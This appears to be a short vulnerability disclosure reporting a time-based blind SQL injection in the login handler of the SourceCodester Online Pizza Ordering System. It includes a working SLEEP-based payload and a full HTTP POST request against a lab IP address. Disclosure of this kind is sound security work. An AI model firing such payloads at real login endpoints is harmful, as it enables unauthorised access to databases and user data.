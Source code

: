 # Online Pizza Ordering System  has SQL injection

BUG_Author: Pass-A
vendors:https://www.sourcecodester.com/php/16166/online-pizza-ordering-system-php-free-source-code.html

Vulnerability File: /php-opos/admin/ajax.php

Parameter " username" (POST), exists delayed injection vulnerability
Payload1: username=admin' AND (SELECT 9075 FROM (SELECT(SLEEP(5)))VBYO)-- jlcs&password=admin123

```
POST http://10.168.66.54/php-opos/admin/ajax.php?action=login HTTP/1.1
Host: 10.168.66.54
Content-Length: 86
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.168.66.54
Referer: http://10.168.66.54/php-opos/admin/login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=dk2dlf34s71cmm52dto2b8ru43
Connection: close

username=admin' AND (SELECT 9075 FROM (SELECT(SLEEP(5)))VBYO)-- jlcs&password=admin123
```



sleep(5)，The server response time is 5 seconds

![image](https://user-images.githubusercontent.com/28854626/219555215-9001ac27-742e-491d-b40f-5d1081a4965d.png)


![image](https://user-images.githubusercontent.com/28854626/219557423-481e8886-6191-46d0-b0c3-bda43ffb7ca4.png)
